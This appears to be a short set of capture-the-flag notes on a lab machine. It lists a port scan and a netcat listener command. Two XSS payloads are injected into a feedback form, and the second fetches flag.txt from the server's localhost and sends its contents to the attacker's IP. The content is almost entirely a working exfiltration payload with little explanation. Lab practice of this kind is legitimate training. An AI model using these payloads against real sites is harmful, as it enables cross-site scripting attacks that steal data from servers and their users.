 My IP: 10.9.2.114
Server IP: 10.10.130.117

Notes:
Ports:
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
8080/tcp open  http-proxy syn-ack


Started listening using netcat:
nc -lnvp 4444

Injected xss into feedback form:
`</textarea><script>fetch('http://10.9.2.114:444');</script>`

`</textarea><script>async function a() {const res1 = await fetch('http://127.0.0.1:8080/flag.txt');const b = await res1.text();const res2 = await fetch('http://10.9.2.114:444?a=' + b);}a();</script>`

![[Pasted image 20250125165156.png]]
